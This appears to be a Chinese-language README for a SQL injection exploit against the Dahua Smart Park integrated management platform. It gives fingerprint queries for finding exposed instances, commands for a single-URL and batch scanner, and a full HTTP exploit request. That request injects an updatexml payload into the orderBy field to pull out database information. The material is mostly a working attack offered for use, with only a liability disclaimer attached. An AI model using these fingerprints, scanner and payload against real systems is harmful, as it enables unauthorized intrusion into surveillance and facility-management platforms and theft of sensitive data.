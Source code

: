 # 大华智慧园区综合管理平台searchJson SQL注入

大华智慧园区综合管理平台系统存在sql注入漏洞，可获取系统敏感信息。

## 指纹

body="/WPMS/"||title="智慧园区综合管理平台"||body="/WPMS/asset/img/black/QR-code-V4.003-owner.png"||body="/WPMS/asset/img/black/zhyq.png"


## 工具利用

python3 searchJson_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 searchJson_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url
![](./poc.jpg)


## exp

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20@@version),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:8009
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2333.119 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```
![](./exp.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
